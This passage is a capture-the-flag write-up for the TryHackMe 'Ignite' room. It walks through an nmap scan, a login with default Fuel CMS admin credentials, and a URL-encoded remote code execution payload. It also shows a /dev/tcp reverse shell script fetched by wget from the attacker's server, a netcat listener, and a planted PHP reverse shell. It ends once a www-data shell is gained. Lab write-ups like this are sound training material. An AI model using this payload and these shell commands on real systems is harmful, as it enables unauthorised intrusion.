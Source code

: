 [Ignite](https://tryhackme.com/room/ignite)

I'll start off with an nmap scan using `-sC` for default scripts `-sV` enumerate version, and `-v` to list ports as they're discovered. I also do an all ports scan with to see if there's anything on less common ports. Nmap just returns port 80 open, which has a site for "Fuel CMS v1.4"
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-title: Welcome to FUEL CMS
```
Nmap shows that there's a `/robots.txt` file, which has one entry, `/fuel`. That directory brings me a login page. Taking a look back at the main page, down near the bottom there's a line that says
```To access the FUEL admin, go to:
http://10.10.100.60/fuel
User name: admin
Password: admin (you can and should change this password and admin user information after logging in)
```
Let's see if they changed it... nope! That gets me right in to the admin panel.
I'm prompted to change the admin password, and while tempting, it would be rather noisy to lock the real admin out of their account. So i opt to leave the password as it is and hope I can get persistance some other way.

Taking a quick look at searchsploit for Fuel CMS 1.4 returns an RCE vulnerability. Taking a look at an exploit script, it looks very simple, you can execute code simply by browsing to : `http://$IP/fuel/pages/select/?filter=/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27{COMMAND}%27%29%2b%27` I give this a try, and it works!!

![Fuel-RCE](https://user-images.githubusercontent.com/112681383/205481986-902eff53-6632-41ef-9be4-8fd90833cb25.png)

I try to send a few different rev shells with the RCE but they don't seem to work. Since curl isn't installed, I write a rev shell and host it on a server in my attacking machine, then download and execute it with the RCE
```bash
echo '/bin/bash -c "bash -c >& /dev/tcp/10.13.8.139/9001 0>&1"' > shell.sh # Attacker : write rev shell script
python3 -m http.server 80 # Attacker : start http server
wget http://10.13.8.139/shell.sh # Victim RCE : download rev shell
nc -lvnp 9001 # Attacker : start netcat listener
bash shell.sh # Victim RCE : execute reverse shell
```
And just like that, I've got a reverse shell on the box.

![RCE-to-revshell](https://user-images.githubusercontent.com/112681383/205482555-6468f926-2073-4bb3-a5e1-83ce6fb3719a.png)

Interestingly, the RCE seems to execute whatever code I give it many times over.

The first thing that jumps out at me is that the whole website is owned by root, but has read, write, and execute permissions for everyone. I first overwrite a php file with the [PentestMonkey] php reverse shell and then go to that page in my browser. Sure enough, it sends me a reverse shell, but as www-data.
